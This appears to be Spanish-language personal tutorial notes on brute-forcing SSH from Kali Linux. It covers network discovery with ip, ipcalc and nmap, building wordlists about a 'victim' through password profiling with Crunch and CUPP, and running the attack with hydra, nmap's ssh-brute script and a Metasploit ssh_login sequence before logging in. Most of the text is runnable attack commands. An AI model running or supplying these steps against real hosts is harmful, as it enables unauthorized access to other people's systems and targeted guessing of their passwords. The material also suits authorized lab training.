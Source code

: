 # Pasos SSH

---

## Fuerza Bruta

Estando en la distribución Kali Linux, realizamos los siguientes pasos:

### Identificación de la Red

1. Ejecutamos el comando ```ip a``` para obtener la dirección ```ip``` de nuestras interfaces.

   <img src="C:\Users\Asus\AppData\Roaming\Typora\typora-user-images\image-20201024224331156.png" alt="image-20201024224331156" style="zoom:40%;" />

2. Luego, podemos calcular la red base con el comando ```ipcalc <nuestra ip>```

   <img src="C:\Users\Asus\AppData\Roaming\Typora\typora-user-images\image-20201024224108944.png" alt="image-20201024224108944" style="zoom:40%;" />

3. Con la red base podemos proceder a ejecutar ```nmap -sP <ip base>/<mascara>``` para poder ver todos los dispositivos en la red.

<img src="C:\Users\Asus\AppData\Roaming\Typora\typora-user-images\image-20201024224619771.png" alt="image-20201024224619771" style="zoom:40%;" />

Como podemos ver en nuestro ejemplo, tenemos 2 pcs conectadas, una somos nosotros (```192.168.1.3```) y la otra es a quien atacaremos (```192.168.1.2```).

4. Ahora procedemos a ejecutar ```nmap <ip victima>/<mascara>``` para ver que puertos están abiertos:

   <img src="C:\Users\Asus\AppData\Roaming\Typora\typora-user-images\image-20201024224901677.png" alt="image-20201024224901677" style="zoom:40%;" />

   En nuestro caso vemos que nuestra victima tiene 3 servicios corriendo y en que puertos.

### Resumen

* ```ip a```: ver las interfaces
* ```ipcalc <nuestra ip>```: calculamos la red base y su mascara.
* ```nmap -sP <ip base>/<mascara>```: realizamos un análisis con los dispositivos encontrados. 
* ```nmap <ip victima>/<mascara>```: vemos los puertos abiertos y tomamos nota.

---

## Hacking por Fuerza Bruta

### Creación de Diccionarios

Para realizar un ataque de fuerza bruta, necesitamos realizar un estudio de la víctima a atacar (llamado **Password Profiling**) , nombre, nombre de conocidos, usuarios en sitios, mascota, fechas importantes, etc. Todo esto con la finalidad de tener una idea de como crear los diccionarios de **Usuarios** y **Passwords**. Para ello tenemos dos herramientas **Crunch** y **CUPP**.

* **Crunch (``sudo apt-get install crunch``)**

  Simplemente ejecutamos: ```crunch <minimo> <maximo> <alfabeto> -t <PALABRA> -o <archivo salida>```

  **Ejemplos**: 

  **Generar contraseñas:** ```crunch 12 12 vlada7198.rfe -t vlada@@@@@@@ -o passwords.txt```
  **Generar usuarios:** ```crunch 9 9 rochi987 -t tobo@@@@@ -o users.txt```

  Las ```@``` son donde **Crunch** intentará hacer todas las permutaciones con los simbolos del ```<alfabeto>```.

* **CUPP  (``sudo apt-get install cupp``)**

  Simplemente ejecutamos ```cupp -i``` y se nos dará una lista de preguntas sobre nuestra victima. Al final de ese proceso tendremos un archivo con las posibles **contraseñas** de usuarios que tenga la victima.

### Fuerza Bruta

* ```hydra```: ```hydra -L users.txt -P passwords.txt ssh://<direccion ip victima> -t <# hilos>```

  <img src="C:\Users\Asus\AppData\Roaming\Typora\typora-user-images\image-20201025070211098.png" alt="image-20201025070211098" style="zoom:33%;" />

* ```nmap```: ```nmap <direccion ip victima> -p <puerto> --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt```

  <img src="C:\Users\Asus\AppData\Roaming\Typora\typora-user-images\image-20201025070633113.png" alt="image-20201025070633113" style="zoom:35%;" />

  <img src="C:\Users\Asus\AppData\Roaming\Typora\typora-user-images\image-20201025070700650.png" alt="image-20201025070700650" style="zoom:35%;" />

* ```metasploit```

  1. ```msfconsole```
  2. ```search ssh```
  3. Buscamos la vulnerabilidad que necesitamos, en nuestro caso: ```auxiliary/scanner/ssh/ssh_login``` y **ejecutamos**: ```use auxiliary/scanner/ssh/ssh_login```
  4. ```show options``` y buscamos las opciones que nos interesan: **RHOSTS, STOP_ON_SUCCESS, USER_FILE, PASS_FILE**
  5. ```set rhosts <direccion ip victima>```
  6. ```set stop_on_success true```
  7. ```set user_file users.txt```
  8. ```set pass_file passwords.txt```
  9. ```set verbose true```
  10. ```run```

  <img src="C:\Users\Asus\AppData\Roaming\Typora\typora-user-images\image-20201025071732726.png" alt="image-20201025071732726" style="zoom:35%;" />

  **NOTA:** ```exit -y``` para salir del prompt de metasploit.

Podemos acceder a la PC atacada con: ```ssh <usuario>@<direccion ip>```

Podemos ver los **logs** con: ```nano /var/log/auth.log```

